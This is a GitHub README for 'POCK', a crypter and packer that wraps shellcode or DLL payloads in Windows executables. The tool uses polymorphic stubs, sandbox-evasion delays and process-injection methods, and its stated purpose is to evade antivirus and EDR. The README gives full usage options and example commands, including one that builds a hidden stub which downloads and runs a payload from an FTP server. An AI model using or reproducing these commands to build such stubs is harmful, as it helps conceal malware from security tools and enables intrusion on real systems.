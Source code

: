 # POCK - Polymorphic Obfuscation and Crypter Kit

**“UnPACKable payloads start here!”**  
A customizable binary packer designed for red teamers, malware researchers, and offensive security professionals.

---

## Overview

POCK (Polymorphic Obfuscation and Crypter Kit) is a modular crypter and packer framework that encrypts and embeds raw payloads into stealthy Windows executables. It is built to help offensive operators evade endpoint detection and response (EDR) and antivirus solutions by implementing polymorphic stubs, anti-sandbox logic, and multiple injection methods.

POCK supports:

- Payload types: raw shellcode (`.bin`) or reflective DLLs (`.dll`)
- Multiple encryption options: AES or XOR
- Staging payloads externally via FTP or embedding them directly
- Injection techniques such as:
  - Asynchronous Procedure Call (APC)
  - Early Bird APC
  - Fiber-based execution
- Anti-analysis features: entropy delay, Fibonacci and factorial loops, sleep timer
- Stub polymorphism via Jinja2-based template randomization
- Hidden compilation for stealth or console mode for debugging

---

## Features

- AES and XOR encryption support
- Jinja2-powered polymorphic stub generation
- Built-in anti-analysis and sandbox evasion logic
- Supports both embedded and staged payloads
- Multiple code injection options
- Configurable execution delays
- Generates fully native Windows executables using `mingw-w64`

---

## Requirements

- Python 3.8 or higher
- [pycryptodome](https://pypi.org/project/pycryptodome/)
- [jinja2](https://pypi.org/project/Jinja2/)
- MinGW-w64 cross-compiler (e.g. `x86_64-w64-mingw32-gcc`)

---

### Install Python dependencies:

```bash
pip install -r requirements.txt
```
Usage:
```bash
python3 POCK.py -i <input_file> -o <output_file> -e <encryption> -k <key> -t <payload_type> [options]
```

---

###Required Arguments

-i, --input

##Path to raw shellcode (.bin) or DLL (.dll) file

-o, --output

##Name of the compiled output executable

-e, --encryption
##Encryption method to use: aes or xor

-k, --key
##Key to encrypt the payload

-t, --type
##Payload type: shellcode or dll

###Optional Arguments
--inject <method>
##Injection method: apc, earlybird, fiber

--url <ftp_url>
##FTP URL for remote payload staging

--ftp-user <username>
##FTP username for authentication

--ftp-pass <password>
##FTP password for authentication

--entropy
##Add entropy-based execution delay

--fibonacci
##Add Fibonacci loop delay

--factorial
##Add factorial computation delay

--sleep <seconds>
##Sleep for specified seconds before executing

--hide
##Compile stub as a hidden (GUI) executable instead of console

##Example Commands
```bash
Generating an embedded payload
python3 POCK.py -i payload.bin -o packed.exe -e aes -k <AES Key> -t shellcode --inject apc --entropy --fibonacci --sleep 15 --hide

Generating a staged stub
python3 POCK.py -i beacon.dll -o agent.exe -e xor -k RedTeamFTW -t dll --url ftp://192.168.50.219/payload.bin --ftp-user user --ftp-pass pass --inject fiber --hide
```
